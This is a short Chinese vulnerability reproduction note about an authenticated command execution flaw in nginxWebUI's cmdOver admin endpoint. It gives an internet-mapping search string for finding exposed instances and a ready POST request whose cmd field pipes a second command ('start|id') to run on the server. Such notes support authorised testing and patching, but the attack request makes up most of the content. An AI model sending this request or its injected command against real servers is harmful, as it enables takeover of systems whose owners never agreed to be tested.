


# nginxWebUI cmdOver 后台命令执行漏洞

## 漏洞描述

nginxWebUI 后台存在命令执行漏洞，攻击者登录后台后可以执行任意命令获取服务器权限

## 漏洞影响

```
nginxWebUI
```

## 网络测绘

```
title="nginxwebui"
```

## 漏洞复现

登录页面




验证请求包

```
POST /adminPage/remote/cmdOver

remoteId=local&cmd=start|id&interval=1
```

